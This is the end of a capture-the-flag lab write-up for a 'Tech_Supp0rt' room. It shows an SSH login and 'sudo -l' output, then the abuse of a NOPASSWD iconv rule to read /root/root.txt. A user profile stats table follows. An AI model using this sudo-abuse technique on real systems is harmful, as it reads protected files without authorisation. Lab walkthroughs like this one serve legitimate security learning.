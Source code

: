 ```bash
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
851b8233a8c09400ec30651bd1529bf1ed02790b  -
scamsite@TechSupport:~$ 

```

<h3>another approach</h3>

```bash
:~/Tech_Supp0rt# ssh scamsite@TargetIP
scamsite@TargetIP's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Fri May 28 23:30:20 2021
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
851b8233a8c09400ec30651bd1529bf1ed02790b  -
```


![image](https://github.com/user-attachments/assets/27cafd3b-99da-4216-93ca-712750dca76c)

<br>
<br>


![image](https://github.com/user-attachments/assets/a91d7f26-2621-435f-a3e3-f63d687c6046)

![image](https://github.com/user-attachments/assets/5faf0ece-a3e1-489f-b97a-55ea80e3f37b)

<br>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| July 6, 2025      | 426      |     163rd    |      5ᵗʰ     |     819ᵗʰ   |    21st    |  113,058 |    832    |     63    |
